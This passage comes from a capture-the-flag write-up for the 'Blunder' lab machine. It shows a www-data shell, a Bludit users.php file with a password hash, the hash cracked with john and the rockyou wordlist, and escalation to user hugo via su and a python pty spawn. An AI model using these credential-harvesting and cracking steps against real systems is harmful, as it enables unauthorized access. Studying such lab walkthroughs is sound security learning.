 ```shell
bash: cannot set terminal process group (1096): Inappropriate ioctl for device 
bash: no job control in this shell 
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$
```
Upon receiving the shell it had been identified that the shell received was from the user **www-data**, with no 
read access to the user.txt file on */home/hugo*.

## Elevating to **Hugo**
Enumerating with the shell, a file **users.php** had been found on */var/www/bludit-3.9.2/bl-content/databases* that
contained hashes for some users. Further enumeration showed another installation directory of Bludit *version 3.10.0* 
and a similar *users.php* file had been found on */var/www/bludit-3.10.0a/bl-content/databases*. The file held password 
hash for the user **hugo**. The contents of the file is given on the section below.
```php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?> 
{ 
    "admin": { 
        "nickname": "Hugo", 
        "firstName": "Hugo", 
        "lastName": "", 
        "role": "User", 
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d", 
        "email": "", 
        "registered": "2019-11-27 07:40:55", 
        "tokenRemember": "", 
        "tokenAuth": "b380cb62057e9da47afce66b4615107d", 
        "tokenAuthTTL": "2009-03-15 14:00", 
        "twitter": "", 
        "facebook": "", 
        "instagram": "", 
        "codepen": "", 
        "linkedin": "", 
        "github": "", 
        "gitlab": ""} 
}
```

The hash was copied to the attacking host and had been cracked with *john* as **Password120**. The same is shown in the 
section given below.
```shell 
[_4m0r@manjaro Blunder]$ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hugo.hash  --format=raw-sha1
Using default input encoding: UTF-8 
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x]) 
Warning: no OpenMP support for this hash type, consider --fork=4 
Press 'q' or Ctrl-C to abort, almost any other key for status 
Warning: Only 1 candidate left, minimum 4 needed for performance. 
Password120      (?) 
1g 0:00:00:01 DONE (2020-08-03 13:55) 0.7194g/s 10318Kp/s 10318Kc/s 10318KC/s Password120
```
With the identified password the session was switched to *hugo* with **su** as ```su hugo``` and the *user* flag was
subsequently read. The same is show on the section given below.
```shell 
www-data@blunder:/home$ su hugo 
su hugo 
Password: Password120 
python -c "import pty;pty.spawn('/bin/bash');" 
hugo@blunder:/home$ cd hugo 
cd hugo 
```